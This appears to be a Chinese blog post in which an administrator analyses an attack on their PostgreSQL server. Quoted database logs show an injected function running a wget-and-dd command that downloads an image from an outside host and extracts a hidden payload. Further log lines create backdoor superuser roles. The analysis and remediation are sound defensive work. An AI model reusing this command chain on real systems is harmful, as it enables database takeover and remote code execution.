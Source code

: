 ```
 49    200K .......... .......... .......... .......... .......... 30%  138K 4s
 50    250K .......... .......... .......... .......... .......... 36%  139K 4s
 51    300K .......... .......... .......... .......... .......... 42%  146K 4s
 52    350K .......... .......... .......... .......... .......... 48%  176K 3s
 53    400K .......... .......... .......... .......... .......... 54%  194K 3s
 54    450K .......... .......... .......... .......... .......... 60%  189K 2s
 55    500K .......... .......... .......... .......... .......... 67%  179K 2s
 56    550K .......... .......... .......... .......... .......... 73%  178K 1s
 57    600K .......... .......... .......... .......... .......... 79%  187K 1s
 58    650K .......... .......... .......... .......... .......... 85%  191K 1s
 59    700K .......... .......... .......... .......... .......... 91%  132K 0s
 60    750K .......... .......... .......... .......... .......... 97%  202K 0s
 61    800K .......... ..........                                 100%  141K=5.3s
 62
 63 2018-08-05 12:54:33 (154 KB/s) - ‘ifzsvasg.jpg’ saved [840464/840464]
 ...
```

不禁很好奇是怎么做到的，但是又不敢把这两张图片 scp 到本地，于是起了个静态文件 serve 看了下这两张图片表面上看起来竟然是斯嘉丽约翰逊的大头照(流口水!)

![Scalet Jown](http://www.4hou.com/uploads/20180318/1521342249300199.png)

印象里面 jpg/jpeg 图片似乎有种隐写 payload 的方法，早年作为葫芦娃种子来传播，网上查到 metaspolit 的这个[组件](https://github.com/r00t-3xp10it/FakeImageExploiter)似乎可以实现。同时也找到了这个工具 [strgdetext](https://github.com/abeluck/stegdetect) 用来提取图片中的隐写数据，可惜提取出来后仍是一段看不懂二进制码，于是思路阻塞住了。

想到既然需要提取 payload, 那么数据库日志里肯定也有相应代码来做这一步，于是重新翻了下日志，果不其然，发现了真正攻击的这一步在这儿

```
 68 2018-08-05 12:54:34 CST [24806-15] pgsql@postgres LOG:  duration: 6705.657 ms  statement: select fun6404402637('wget  -c   http://img1.imagehousing.com/0/cat-497532.png -O ifzsvasg.jpg;dd  skip=20656  bs=1  if=./ifzsvasg.jpg  of=x4064410502;rm -f ./i#
 69 2018-08-05 12:54:34 CST [24845-1] postgres@postgres FATAL:  password authentication failed for user "postgres"
 70 2018-08-05 12:54:34 CST [24845-2] postgres@postgres DETAIL:  Connection matched pg_hba.conf line 101: "host    all             all              0.0.0.0/0              md5"
 71 2018-08-05 12:54:35 CST [24806-16] pgsql@postgres ERROR:  role "login" already exists
 72 2018-08-05 12:54:35 CST [24806-17] pgsql@postgres STATEMENT:  CREATE ROLE   LOGIN ENCRYPTED PASSWORD 'md51351dbb7fe95c1f277282bc842cb3d6b' SUPERUSER CREATEDB CREATEROLE REPLICATION   VALID UNTIL 'infinity';
 73 2018-08-05 12:54:36 CST [24806-18] pgsql@postgres ERROR:  role "login" already exists
 74 2018-08-05 12:54:36 CST [24806-19] pgsql@postgres STATEMENT:  CREATE ROLE   LOGIN ENCRYPTED PASSWORD 'md51351dbb7fe95c1f277282bc842cb3d6b' SUPERUSER CREATEDB CREATEROLE    VALID UNTIL 'infinity';
 75 2018-08-05 12:54:36 CST [24806-21] pgsql@postgres STATEMENT:  CREATE ROLE pgsql LOGIN ENCRYPTED PASSWORD 'md56413b16b3d0861a1d2538e8d5a5eb39c'  SUPERUSER CREATEDB CREATEROLE    VALID UNTIL 'infinity';
```

通过 `select tmp_function(cmd) ` 的方式 执行了 下载图片 -- 提取 paylod -- 设置权限 -- 删除图片 -- 通过 payload 里的自定义代码重建了 pgsql 数据库账户 -- 拿到数据库 root 权限 这一套组合拳，漂亮！

排查到问题之后，赶紧清空了相关文件和 dbuser，设置了 postgres superuser 本地连接的设置，禁掉了 superuser 网络连接, 翻了下斯嘉丽约翰逊的其他照片，终于长舒一口气。
